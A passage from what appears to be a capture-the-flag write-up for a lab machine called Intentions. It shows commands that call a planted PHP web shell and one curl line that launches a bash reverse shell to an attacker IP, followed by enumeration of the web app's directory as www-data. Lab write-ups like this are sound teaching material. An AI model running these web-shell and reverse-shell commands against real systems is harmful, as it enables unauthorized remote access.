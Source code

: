 This is a sign of success, as wither.php is there:
`curl http://10.10.11.220/storage/wither.php?cmd=id`
Then if we want to get the reverse shell 
`curl http://10.10.11.220/storage/0xdf.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.16.5/443 0>%261"' `

2, shell as greg
There are three users with home directories in /home:
`greg  legal  steven`
`www-data`’s home directory is `/var/www`, and the only thing in it is the website, in `/var/www/html/intentions`:
```
www-data@intentions:~/html/intentions$ ls -la
total 820
drwxr-xr-x  14 root     root       4096 Feb  2  2023 .
drwxr-xr-x   3 root     root       4096 Feb  2  2023 ..
-rw-r--r--   1 root     root       1068 Feb  2  2023 .env
drwxr-xr-x   8 root     root       4096 Feb  3  2023 .git
-rw-r--r--   1 root     root       3958 Apr 12  2022 README.md
drwxr-xr-x   7 root     root       4096 Apr 12  2022 app
-rwxr-xr-x   1 root     root       1686 Apr 12  2022 artisan
drwxr-xr-x   3 root     root       4096 Apr 12  2022 bootstrap
-rw-r--r--   1 root     root       1815 Jan 29  2023 composer.json
-rw-r--r--   1 root     root     300400 Jan 29  2023 composer.lock
drwxr-xr-x   2 root     root       4096 Jan 29  2023 config
drwxr-xr-x   5 root     root       4096 Apr 12  2022 database
-rw-r--r--   1 root     root       1629 Jan 29  2023 docker-compose.yml
drwxr-xr-x 534 root     root      20480 Jan 30  2023 node_modules
-rw-r--r--   1 root     root     420902 Jan 30  2023 package-lock.json
-rw-r--r--   1 root     root        891 Jan 30  2023 package.json
-rw-r--r--   1 root     root       1139 Jan 29  2023 phpunit.xml
drwxr-xr-x   5 www-data www-data   4096 Feb  3  2023 public
drwxr-xr-x   7 root     root       4096 Jan 29  2023 resources
drwxr-xr-x   2 root     root       4096 Jun 19 11:22 routes
-rw-r--r--   1 root     root        569 Apr 12  2022 server.php
drwxr-xr-x   5 www-data www-data   4096 Apr 12  2022 storage
drwxr-xr-x   4 root     root       4096 Apr 12  2022 tests
drwxr-xr-x  45 root     root       4096 Jan 29  2023 vendor
-rw-r--r--   1 root     root        722 Feb  2  2023 webpack.mix.js
```
There is a Git repo (the .git directory) that is readable but not writable by www-data. The permissions on the directory don’t allow www-data to run git commands:
```
www-data@intentions:~/html/intentions$ git log                                                          
fatal: detected dubious ownership in repository at '/var/www/html/intentions'
To add an exception for this directory, call:

        git config --global --add safe.directory /var/www/html/intentions
www-data@intentions:~/html/intentions$ git config --global --add safe.directory /var/www/html/intentions
error: could not lock config file /var/www/.gitconfig: Permission denied
```
